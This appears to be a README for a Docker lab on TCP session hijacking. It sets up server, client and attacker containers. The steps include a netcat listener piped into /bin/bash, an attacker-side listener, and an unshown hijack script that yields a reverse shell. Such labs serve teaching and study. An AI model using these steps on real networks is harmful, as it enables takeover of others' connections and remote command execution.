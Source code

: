 # TCP SESSION HIJACKING

## 1. Create NetOne Network
    docker network create --subnet 10.2.5.0/24 NetOne --driver bridge
## 2. Launch Server Container in Privileged Mode
    docker run -it --privileged --network NetOne --name Server --ip 10.2.5.3 myubuntu
## 3. Launch Client and Attacker Containers
    docker run -it --network NetOne --name Client --ip 10.2.5.2 myubuntu
    docker run -it --network host --name Attacker myubuntu
## 4. Create NetCat Listener on Server Container
    nc -l 80 | /bin/bash
## 5. Connect Client to Server
    nc 10.2.5.3 80
## 6. Create NetCat Listener & Launch Hijack From Attacker Container
    nc -lnv 1337 & python3 sniff_and_hijack.py
## 7. Send any message from client to server to hijack the server
## 8. Reverse shell now active in attacker container, move to foreground with
    fg nc

